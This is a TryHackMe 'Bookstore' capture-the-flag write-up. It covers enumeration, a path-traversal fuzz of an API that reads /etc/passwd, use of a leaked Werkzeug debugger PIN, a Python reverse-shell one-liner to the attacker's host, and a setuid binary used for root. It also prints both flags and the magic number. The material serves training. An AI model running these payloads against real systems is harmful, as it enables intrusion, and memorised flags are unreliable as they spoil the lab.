 # TryHackMe - Bookstore Penetration Testing Writeup

This document provides a detailed writeup on the penetration test performed on the Bookstore machine hosted on TryHackMe.

## **1. Initial Reconnaissance**

The first step of any penetration test is an initial scan to determine what services are running.

```bash
root@ip-10-10-183-17:~# nmap -sC -sV 10.10.14.108 
```

The key findings from the scan are:

- SSH (port 22) is open.
- HTTP (port 80) is serving an Apache server.
- Another HTTP instance (port 5000) is identified as the Werkzeug httpd, with an exposed API endpoint `/api`.

## **2. Web Enumeration**

Upon visiting the website at:

- `http://10.10.14.108`
- `http://10.10.14.108/books`
- `http://10.10.14.108/login`

We discovered interesting information:

- Source code of `/books` revealed an API call endpoint.
- A comment hinting at a version vulnerability in the API.
- The `/login` page had a development comment, indicating the presence of a debugger PIN in sid's bash history file.

To further uncover the directories and files, we used `gobuster`:

```bash
root@ip-10-10-183-17:~# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.14.108:5000
```

Discoveries:

- `/api` exposed API documentation.
- `/console` revealed the Werkzeug Debugger Console, but it required a PIN.

## **3. API Exploitation**

An exploration of the API exposed potential endpoints. To identify vulnerabilities, we fuzzed the API:

```bash
root@ip-10-10-183-17:~# wfuzz -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/api/objects.txt -u http://10.10.14.108:5000/api/v1/resources/books?FUZZ=../../../../../etc/passwd --hc 404
```

This identified a potential local file disclosure vulnerability using the `show` parameter. Successfully exploiting it revealed the pin `123-321-135`.

## **4. Gaining Initial Access**

Utilizing the discovered PIN, we accessed the Werkzeug Debugger Console and executed the following command to obtain a reverse shell:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.183.17",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

From the obtained shell, we extracted the user flag:

```bash
sid@bookstore:~$ cat user.txt
4ea65eb80ed441adb68246ddf7b964ab
```

## **5. Privilege Escalation**

On the server, a setuid binary named `try-harder` was discovered. After a local disassembly and reverse engineering, it was determined that the program performs an XOR operation against specific inputs. Calculating the correct input granted us a root shell:

```bash
sid@bookstore:~$ ./try-harder 
What's The Magic Number?!
1573743953
root@bookstore:~#
```

With escalated privileges, we extracted the root flag:

```bash
root@bookstore:~# cat /root/root.txt
e29b05fba5b2a7e69c24a450893158e3
```
